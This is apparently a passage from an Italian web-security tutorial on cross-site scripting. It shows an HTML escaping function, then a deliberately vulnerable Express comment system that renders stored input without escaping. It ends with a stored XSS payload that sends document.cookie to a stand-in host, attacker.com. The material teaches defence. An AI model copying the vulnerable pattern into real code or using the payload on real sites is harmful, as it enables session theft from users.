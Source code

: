 **JavaScript escape function:**
```javascript
function escapeHtml(unsafe) {
    return unsafe
        .replace(/&/g, "&amp;")
        .replace(/</g, "&lt;")
        .replace(/>/g, "&gt;")
        .replace(/"/g, "&quot;")
        .replace(/'/g, "&#039;");
}

// Express.js esempio
app.get('/search', (req, res) => {
    const query = escapeHtml(req.query.q);
    res.send(`<h1>Risultati per: ${query}</h1>`);
});
```

### 15.1.3 - Stored XSS (Persistent XSS)

**Scenario:** Input malevolo salvato nel database e mostrato ad altri utenti.

**Esempio - Sistema commenti vulnerabile:**
```javascript
// POST /comments
app.post('/comments', async (req, res) => {
    const comment = req.body.text;
    
    // ❌ VULNERABILE - Nessuna sanitizzazione!
    await db.query('INSERT INTO comments (text) VALUES (?)', [comment]);
    
    res.redirect('/comments');
});

// GET /comments
app.get('/comments', async (req, res) => {
    const comments = await db.query('SELECT * FROM comments');
    
    let html = '<h1>Commenti</h1>';
    comments.forEach(c => {
        // ❌ VULNERABILE - Inserimento diretto HTML!
        html += `<div class="comment">${c.text}</div>`;
    });
    
    res.send(html);
});
```

**Attacco:**
```javascript
// Attaccante invia commento:
POST /comments
Content-Type: application/json

{
    "text": "<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>"
}

// Ogni utente che visita /comments esegue lo script!
// Cookie rubati da tutti gli utenti
```
